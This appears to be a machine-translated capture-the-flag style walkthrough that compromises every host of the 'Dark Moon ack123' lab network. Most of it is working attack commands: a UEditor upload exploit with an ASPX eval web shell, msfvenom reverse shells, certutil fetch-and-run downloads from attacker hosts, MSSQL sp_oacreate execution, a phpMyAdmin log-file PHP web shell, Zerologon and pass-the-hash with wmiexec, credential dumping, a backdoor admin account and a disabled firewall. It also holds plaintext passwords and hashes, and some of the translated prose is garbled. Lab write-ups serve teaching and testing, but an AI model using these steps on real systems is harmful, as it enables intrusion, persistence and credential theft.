# Dark Moon Range & ack123

## 0x00 Environment construction

Since it is built on a local server, a virtual machine is used to build a target machine. Other hosts in the domain are attack machines. It is necessary to note that the target range needs to be bound to a domain name and cannot be accessed using `IP`.



## 0x01 External website call

- `Dirsearch` scan results



- `Nmap` scan result, and found that the `FTP` service exists on port `21, and the `phpMyAdmin` exists on port `999.



Trying to explode the password of the `admin` user failed. Register an ordinary user to view the background. There is `Ueditor 1.4.3`, and there is a vulnerability in this version.

Download the source code of `HDHCMS` and find that there is `Ueditor` related content in `Admin/net/controller.ashx`. Just hit the `Ueditor` editor upload vulnerability.

```html
# attack.html
<form action="http://www.ackmoon.com/Admin/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 <p>shell addr: <input type="text" name="source[]" /></p>
 <input type="submit" value="Submit" />
</form>
```

```c#
<%@ Page Language="Jscript"%><%eval(Request.Item["h3"],"unsafe");%>
```

The attack machine launches a `Python` service, uploads malicious image horse `Webshell`, `http://192.168.31.206:8888/shell.png?.aspx`. After the upload is successful, the address of `Webshell` will be returned.



`Server-Web1` is the current user of `iis apppool\ackmoon`, and you need to raise the authority to high permissions. There are two network cards `192.168.22.128` and `192.168.31.186`.



Check the running process and find that the `360` family bucket and guard god exist.



Here we use `360` to launch the MSF` `360` to become a simple `MSF` horse, and then do the `getsystem` on this basis. After the `getsystem` is launched, we will directly raise the authority to `NT AUTHORITY\SYSTEM`.

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.206 lport=5555 -f exe -o h3.exe
```


The process is migrated and persisted to maintain permissions.

```powershell
# View the process running in the target device
ps
# Check the current process ID
getpid
# Bind the target process ID
migrate ID
```


Get `flag1` on the `Administrator` user desktop.


## 0x02 Horizontal penetration

Use `fscan` to collect information about other hosts of the network segment and detect the `192.168.22.1` network segment.


```text
192.168.22.133:445 open
192.168.22.129:445 open
192.168.22.129:3306 open
192.168.22.128:3306 open
192.168.22.133:1433 open
192.168.22.128:445 open
192.168.22.1:445 open
192.168.22.133:139 open
192.168.22.129:139 open
192.168.22.128:139 open
192.168.22.1:139 open
192.168.22.133:135 open
192.168.22.129:135 open
192.168.22.128:135 open
192.168.22.1:135 open
192.168.22.133:80 open
192.168.22.129:80 open
192.168.22.128:80 open
192.168.22.128:21 open
[*] alive ports len is: 19
start vulscan
[*] NetInfo:
[*]192.168.22.128
   [->]12server-web1
   [->]192.168.22.128
   [->]192.168.31.186
[*] NetInfo:
[*]192.168.22.129
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] NetInfo:
[*]192.168.22.133
   [->]12server-data1
   [->]192.168.22.133
   [->]192.168.31.62
[*] NetInfo:
[*]192.168.22.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[*] NetBios: 192.168.22.128 WORKGROUP\12server-web1 Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://192.168.22.133 code:404 len:315 title:Not Found
[*] WebTitle: http://192.168.22.129 code:200 len:4301 title: Demonstration: JWT practice: Use axios+PHP to implement login authentication
[*] NetBios: 192.168.22.1 WORKGROUP\LIU
[*] NetBios: 192.168.22.133 WORKGROUP\12server-data1 Windows Server 2012 R2 Standard 9600
[*] NetBios: 192.168.22.129 12server-web2.ack123.com Windows Server 2012 R2 Standard 9600
```

I found that the MSSQL service exists in the `Server-Data1` service, and found the configuration information of `MSSQL` in the `C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web\HdhApp.config` file of the `Server-Web1` host.

```
192.168.22.133
sa/pass123@.com
```


Use `Stowaway` as a proxy and use `Navicat` to connect to the database.

```
# Attack aircraft
./macos_arm64_admin -l 9999 -s H3rmesk1t
# Springboard machine
agent.exe -c "192.168.31.206:9999" -s H3rmesk1t
```



Try to use `xp_cmdshell` to attack `Server-Data1`, refer to the article [Summary of the execution of Mssql database commands] (https://xz.aliyun.com/t/7534).

````sql
# determine the status of xp_cmdshell, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# Use xp_cmdshell to execute commands
exec master..xp_cmdshell 'whoami'

# Recover the deleted xp_cmdshell, you can use xplog70.dll to restore the deleted xp_cmdshell
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

The target machine has turquoise, so it is impossible to download the horse directly. Here we refer to the attack method in the article [record the attack method in the article [record once using mssql to go online] (https://xz.aliyun.com/t/9265), using `sp_o
create` is here to go online.



To add to the method of using the COM component in the execution of the `Mssql` database command, use the `COM` component `SP_OACREATE` in `Sql Server` to execute system commands, and use the prerequisites:
- `Mssql` database service has not been downgraded
- The database password has been obtained

````sql
# determine the status of SP_OACREATE, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'

# Enable SP_OACREATE
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE;

# Use SP_OACREATE to execute the command, there is no echo in this method
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

Bypass the idea (no killing the turtlene horse):

````sql
# Copy certutil.exe to the C:\Windows\Temp\ directory and rename it
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile',null,'C:\Windows\System32\certutil.exe' ,'C:\Windows\Temp\h3.exe';

# Download Mazi remotely
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\h3.exe -urlcache -split -f "http://192.168.21.42:9999/222.exe" C:\Windows\Temp\222.exe'

# Use forfiles to run horses
declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\222.exe';
```

After launching `MSF`, use `getsystem` to increase the authority to `NT AUTHORITY\SYSTEM`.



Get `flag1` in the `C:\Users\Administrator` directory.



Then, an attack was carried out on the `WEB` service open to `Server-Web2`. The website name is `JWT`, which is used to catch packets. After logging in with the `demo` user, it found that there is `X-token`.



Use `hashcat` to try to explode the key of `HMACSHA256` and get the key as `Qweasdzxc5`.

```bash
hashcat -m 16500 jwt.txt -a 0 rockyou.txt
```



Using the blasted key, I successfully logged in as an admin user after forging the `JWT`, but after logging in, I found no available points.





After scanning the background, I found that there is a `phpmyadmin4.8.5` directory, the user name and password are `root`/`Qweasdzxc5`, and the log writing is used to getshell`.

````sql
# Check if there is direct write permission
show global variables like '%secure_file_priv%';

# Check log file status
show global variables like "%genera%";

# Turn on logging
set global general_log='on';

# Export the specified directory of the log file
set global general_log_file='C:\\phpstudy_pro\\WWW\\h3.php';

# Write a word directory
select '<?php @eval($_REQUEST["cmd"]);?>';

# Clean the trace, modify the original path and close the record
set global general_log_file='original path';
set global general_log=off;
```

Connect the ant sword and directly get the `nt authority\system` permission. In the `C:\Users\Administrator\Desktop\flag03.txt` file, you can get the `flag3` flag3`.





Check the network information and find that there is a domain environment.



Still, go online `MSF` first, and then upload `fscan` to collect network segment information.

```powershell
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=5558 -f exe -o 555.exe

set payload windows/x64/meterpreter/bind_tcp
set lport 5558
set rhost 192.168.22.129
```

```
10.10.10.135:445 open
10.10.10.131:445 open
10.10.10.135:3306 open
10.10.10.131:3306 open
10.10.10.1:445 open
10.10.10.133:445 open
10.10.10.1:139 open
10.10.10.133:139 open
10.10.10.135:139 open
10.10.10.131:139 open
10.10.10.133:135 open
10.10.10.135:135 open
10.10.10.1:135 open
10.10.10.131:135 open
10.10.10.131:80 open
10.10.10.133:88 open
10.10.10.1:9999 open
[*] alive ports len is: 17
start vulscan
[*] NetInfo:
[*]10.10.10.131
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] WebTitle: http://10.10.10.131 code:200 len:4301 title: Demonstration: JWT practice: Use axios+PHP to implement login authentication
[*] NetInfo:
[*]10.10.10.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[+] 10.10.10.133 MS17-010 (Windows Server 2016 Standard 14393)
[*] NetInfo:
[*]10.10.10.135
   [->]12server-data2
   [->]192.168.74.129
   [->]10.10.10.135
[*] NetInfo:
[*]10.10.10.133
   [->]16server-dc1
   [->]10.10.10.133
[*] NetBios: 10.10.10.131 12server-web2.ack123.com Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://10.10.10.1:9999 code:200 len:1108 title:Directory listing for /
[+] InfoScan: http://10.10.10.1:9999 [Directory Traversal]
[*] NetBios: 10.10.10.1 WORKGROUP\LIU
[*] NetBios: 10.10.10.135 12server-data2.ack123.com Windows Server 2012 R2 St
andard 9600
```

The domain control is `10.10.10.133` and there is a `MS17-010` vulnerability. After `run post/multi/manage/autoroute`, it tried to hit the domain control but it kept hitting the blue screen, causing the utilization failure. Testing the `Netlogon` vulnerability, it also exists.



Here we use the `Netlogon` vulnerability to directly attack domain control:

```bash
# Vulnerability Verification
python zerologon_tester.py DC_NETBIOS_NAME DC_IP_ADDR

# Empty DC password
python cve-2020-1472-exploit.py DC_NETBIOS_NAME DC_IP_ADDR

# Get HASH, use secretsdum.py in the impacket package to get the relevant HASH
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass

# Get the shell. After obtaining HASH, you can use wmiexec.py to log in to get SHELL
python wmiexec.py -hashes <HASH> DOMAIN/DOMAIN_USER@DC_IP_ADDR
```



```bash
# Restore the original HASH, execute the following command to obtain the original HASH in SAM
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
exit

# parse HASH, execute the following command, and use secretsdump.py to parse NTHASH stored locally
python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

# Restore HASH
python reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR <ORI_HASH>

# Verify whether to recover
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass
```



Then use the `Shell` obtained by `wmiexec.py` to add a user to the administrator group, then close the firewall and enable `3389` remote login.

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.133

net user admin QWEasd123!@# /add
net localgroup administrators admin /add

netsh advfirewall set allprofiles state off
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```



Get `flag5` in the `C:\Users\Administrator\Desktop` directory.



Since the `hash` of the `Administrator` user in the domain has been obtained, it goes directly to `Server-Data2` here. After closing the firewall, use the `WEB2` service I took before as an intermediate service, put the `Mazi on it, download the `Certutil`, and launch `MSF`.

```bash
python wmiexec.py -hashes aad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27 ack123.com/Administrator@10.10.10.135

netsh advfirewall set allprofiles state off

C:\Windows\System32\certutil.exe -urlcache -split -f http://10.10.10.131/666.exe C:\666.exe
```

Get `flag4` in the `C:\Users\Administrator\Desktop` directory



## 0x03 Summary

At this point, all server permissions in the entire shooting range have been obtained, and there are many ways to obtain the final domain control permission. Only one is used here. You can also obtain it by blasting `krbtgt` or `mimikatz```, and you can also use the method of injecting gold notes, `PTH`, etc. to achieve horizontal direction.

process:
1. Use the `Ueditor 1.4.3` vulnerability in the `Server-Web1` website to implant `Webshell` to obtain website permissions, and then upgrade the `MSF` permission to `system` permissions online
2. By searching the configuration file, obtain the MSSQL database account password of `Server-Data1`, and combine the `COM` component `SP_OACREATE` to execute the system commands, and launch the `MSF` privilege to `system` permission.
3. Use the JWT vulnerability in the `Server-Web2` website to break the `HMACSHA256` key and get the `phpmyadmin` password, combined with the log writing method `Getshell`
4. Use the `Netlogon` vulnerability to attack domain control, get the `hash` of the `Administrator` user in the domain, add backdoor users, close the firewall, open the remote desktop, and launch `MSF`
5. Use the `hash` of the `Administrator` user in the domain obtained, directly WMIC horizontally to `Server-Data2`, and go online `MSF`

